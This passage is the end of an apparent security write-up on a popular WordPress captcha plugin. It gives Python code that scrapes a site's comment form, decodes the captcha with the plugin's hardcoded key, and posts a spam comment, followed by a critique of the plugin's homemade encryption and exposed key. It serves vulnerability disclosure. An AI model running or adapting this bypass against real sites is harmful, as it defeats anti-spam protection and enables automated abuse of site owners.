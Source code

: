             el= dom.find_class('form-submit')[0]
            for c in el.getchildren():
                    try:
                            if c.attrib['name'] == 'comment_post_ID':
                                    post_id = c.attrib['value']
                            if c.attrib['name'] == 'comment_parent':
                                    comment_parent = c.attrib['value']
                    except KeyError:
                            pass

            print('[+] Captcha is "{}"'.format(captcha))
            
            # Try to crickiticrack it :P [Well we just use the decode() functon]
            solution = reverse(result, KEY, time)
            
            print('[+] Found solution: "{}"'.format(solution))
            
            # No write a comment with the cracked captcha to proof that we provided the
            # correct solution.
            payload = {'author': 'spammer', 'email': 'spammer@spamhouse.org', 'url': 'http://spamming.com',
            'cptch_result': result, 'cptch_time': time, 'cptch_number': solution,
            'comment': "Hi there! No protection from spammers!!!!:D", 'submit': 'Post+Comment',
            'comment_post_ID': post_id, 'comment_parent': comment_parent}

            try:
                    r = requests.post(COMMENT_POST, data=payload)
            except requests.ConnectionError as cerr:
                    print('Network problem occured: {}'.format(cerr))
            except requests.Timeout as terr:
                    print('Connection timeout: {}'.format(terr))
            if not r.ok:
                    print('HTTP Error:', r.status_code)

Conclusion
----------

Let me summarize:

-   The captcha implementation of the plugin is bad because it does not
    prevent computers from solving it (The idea behind serving
    mathematical equations in this form is highly debatable).
-   The captcha author implements his own encryption function, which is
    almost always a very bad idea as long as your name is not Bruce
    Scheier or you aren't a mathematician.
-   The captcha plugin stores clear text passwords in the source code
    visible to anyone.
-   The captcha plugin has a very big user base (Over one million
    downloads) and a alarming high rating.
-   The [authors](http://bestwebsoft.com/ "BestWebSoft") earn money with
    this shitty software and the users are left completely unsecured.
